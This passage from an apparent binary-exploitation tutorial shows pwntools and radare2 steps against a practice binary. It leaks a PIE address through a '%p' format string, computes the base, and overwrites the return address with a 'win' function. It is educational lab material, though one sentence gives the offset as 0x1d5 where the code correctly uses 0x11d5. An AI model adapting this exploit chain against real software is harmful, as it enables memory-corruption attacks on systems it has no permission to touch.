 ```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

##### PIE Leak

Now we just need a leak. Let's try a few offsets.

```bash
$ ./vuln-32 
What's your name?
%p %p %p %p %p
Nice to meet you 0xf7eee080 (nil) 0x565d31d5 0xf7eb13fc 0x1
```

3rd one looks like a binary address, let's check the difference between the 3rd leak and the base address in radare2. Set a breakpoint somewhere after the format string leak (doesn't really matter where).

```bash
$ r2 -d -A vuln-32 

Process with PID 5548 started...
= attach 5548 5548
bin.baddr 0x565ef000
0x565f01c9]> db 0x565f0234
[0x565f01c9]> dc
What's your name?
%3$p
Nice to meet you 0x565f01d5
```

We can see the base address is `0x565ef000` and the leaked value is `0x565f01d5`. Therefore, subtracting `0x1d5` from the leaked address should give us the binary. Let's leak the value and get the base address.

```python
p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}') # not required, but a nice check
```

Now we just need to send the exploit payload.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

print(p.clean().decode())
```
